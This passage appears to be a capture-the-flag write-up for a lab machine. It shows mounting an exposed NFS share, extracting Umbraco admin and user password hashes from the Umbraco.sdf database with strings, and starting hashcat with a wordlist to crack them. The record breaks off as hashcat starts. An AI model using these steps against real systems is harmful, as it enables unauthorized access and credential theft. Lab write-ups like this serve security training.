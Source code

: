 Once the shares available on the systems are known, mount command can be used to mount remote share on the attacker machine. First a directory needs to be created that the remote share will be mounted to, after that the remote share can be mounted to that directory as per commands below.
```
root@lifesfun:~# mkdir /tmp/infosec

root@lifesfun:~# mount -t nfs 10.10.10.180:/site_backups /tmp/remote/
```

Now that the share is mounted, it can be enumerated locally.

```
root@lifesfun:~# cd /tmp/remote

root@lifesfun:~# ls
App_Browsers  App_Data  App_Plugins  aspnet_client  bin  Config  css  default.aspx  Global.asax  Media  scripts  Umbraco  Umbraco_Client  Views  Web.config
```

After doing some research, it has been found that umbraco stores various information in its database. The database is located in App_Data folder in a file called Umbraco.sdf

```
root@lifesfun:~# cd App_Data

root@lifesfun:~# ls
cache  Logs  Models  packages  TEMP  umbraco.config  Umbraco.sdf
```

root\@lifesfun:\~\# strings Umbraco.sdf

Administratoradmindefaulten-US

Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d

Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d

adminadmin\@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin\@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50

adminadmin\@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin\@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f

smithsmith\@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith\@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e

ssmithsmith\@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith\@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749

ssmithssmith\@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith\@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32

### Hash Cracking

.\\hashcat64.exe -m 100 -a 0 .\\remote.txt .\\rockyou.txt

hashcat (v5.1.0) starting...
